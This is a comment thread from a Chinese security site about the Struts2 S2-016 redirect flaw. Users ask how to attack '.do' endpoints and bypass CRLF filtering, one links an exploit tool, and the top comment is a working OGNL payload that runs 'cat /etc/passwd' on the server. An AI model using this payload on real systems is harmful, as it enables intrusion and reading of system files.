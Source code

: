 请教各位，.do后缀名怎么入侵？
[亮了]()(0)
[回复](http://www.freebuf.com/vuls/?replytocom=13123#respond)
* [![]()](http://www.freebuf.com/?author=1604) [redcar ](http://www.freebuf.com/author/redcar) (1级)  []() 2013-07-20    40楼

请问哪位知道这个redirect的功能是不是把%0a或者%0d过滤掉了？尝试了很多方法，返回的结果都是吧%0a和%0d给转换成了空格。因为看到了重定向，想尝试一下http分割响应，请问又什么绕过方法？
[亮了]()(1)
[回复](http://www.freebuf.com/vuls/?replytocom=13132#respond)
* [![]()](http://www.freebuf.com/?author=3968) [cwg2552298 ](http://www.freebuf.com/author/cwg2552298) (1级)  []() 2013-07-21    41楼

Genius ！
[亮了]()(0)
[回复](http://www.freebuf.com/vuls/?replytocom=13142#respond)
* [![]()](http://www.freebuf.com/?author=645) [藤真 ](http://www.freebuf.com/author/藤真)![](http://www.freebuf.com/buf/themes/freebuf/images/medals/f1.png "FB达人") (1级) 安信华攻防实验室成员 []() 2013-07-21    42楼

php版利用工具 [http://www.waitalone.cn/struts2-s2-16-exploits.html](http://www.waitalone.cn/struts2-s2-16-exploits.html)
[亮了]()(1)
[回复](http://www.freebuf.com/vuls/?replytocom=13144#respond)
昵称
(必须)您当前尚未登录。[登陆](http://www.freebuf.com/wp-login.php?redirect_to=http%3A%2F%2Fwww.freebuf.com%2Fvuls%2F11220.html "登陆")？注册

邮箱
必须(保密)

发表言论前，请滑动滚动条解锁
[表情]()[插代码]()[插图]()

[![]()]( "mrgreen")[![]()]( "razz")[![]()]( "sad")[![]()]( "smile")[![]()]( "oops")[![]()]( "grin")[![]()]( "eek")[![]()]( "???")[![]()]( "cool")[![]()]( "lol")[![]()]( "mad")[![]()]( "twisted")[![]()]( "roll")[![]()]( "wink")[![]()]( "idea")[![]()]( "arrow")[![]()]( "neutral")[![]()]( "cry")[![]()]( "?")[![]()]( "evil")[![]()]( "shock")[![]()]( "!")
正在提交, 请稍候...

#

[取消]()   有人回复时邮件通知我

### **本文这些评论亮了![]()[捐助我们](http://www.freebuf.com/donate)****Hot Comments**

[X]() @ 2013-07-17 15:57:23

?redirect:${%23a%3d(new java.lang.ProcessBuilder(new java.lang.String[]{'cat','/etc/passwd'})).start(),%23b%3d%23a.getInputStream(),%23c%3dnew java.io.InputStreamReader(%23b),%23d%3dnew java.io.BufferedReader(%23c),%23e%3dnew char[50000],%23d.read(%23e),%23matt%3d%23context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse'),%23matt.getWriter().println(%23e),%23matt.getWriter().flush(),%23matt.getWriter().close()}
[亮了]() (30) [命运]() @ 2013-07-17 13:52:31

不息抢沙发好速度，话说乌云又有SB在刷分了。黑产的大好机会不把握，呵呵。
[亮了]() (17) [fake]() @ 2013-07-17 13:51:55
